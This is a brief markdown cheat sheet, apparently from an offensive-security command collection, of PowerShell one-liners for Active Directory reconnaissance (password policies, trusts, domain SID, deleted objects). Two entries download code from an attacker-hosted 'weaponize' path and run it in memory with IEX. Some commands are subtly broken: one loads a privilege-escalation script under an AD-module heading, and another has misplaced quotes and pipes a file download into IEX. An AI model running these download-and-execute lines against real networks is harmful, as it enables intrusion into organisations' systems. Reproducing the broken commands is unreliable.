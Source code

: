 # pwsh
% windows, Active Directory, powershell

#plateform/windows #target/local #cat/RECON/AD #tag/powershell 


## AD - Install the AD Module
```
Get-WindowsCapability -Name RSAT*ActiveDirectory* -Online | Add-WindowsCapability -Online;gci -Path 'C:\Windows' -Recurse -Filter 'Microsoft.ActiveDirectory.Management.dll' -EA SilentlyContinue | ? {$_.FullName -like '*GAC_64*' -or $_.FullName -like '*amd64*'} | select -Expand FullName
```

## AD - load AD Module from http (PS1)
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1
```
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/PrivescCheck.ps1') | IEX; Import-ActiveDirectory
```

## AD - load AD Module from http (dll)
```
(New-Object System.Net.WebClient).DownloadFile('http://<local_ip>:<port|80>/windows/windows_weaponize/dll/Microsoft.ActiveDirectory.Management.dll', '<windows_writable_path>\Microsoft.ActiveDirectory.Management.dll)' | IEX; Import-Module <path>\Microsoft.ActiveDirectory.Management.dll; Get-Command -Module Microsoft.ActiveDirectory.Management
```

## AD - get current DC
```
$env:LOGONSERVER
```

## AD - get password policy (user)
```
Get-ADUserResultantPasswordPolicy -Identity <user>
```

## AD - get password policy (default)
```
Get-ADDefaultDomainPasswordPolicy
```

## AD - show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## AD - Get domain trust
```powershell
Get-DomainTrust -Domain <domain>
```

## AD - Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## AD - Get trash object
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

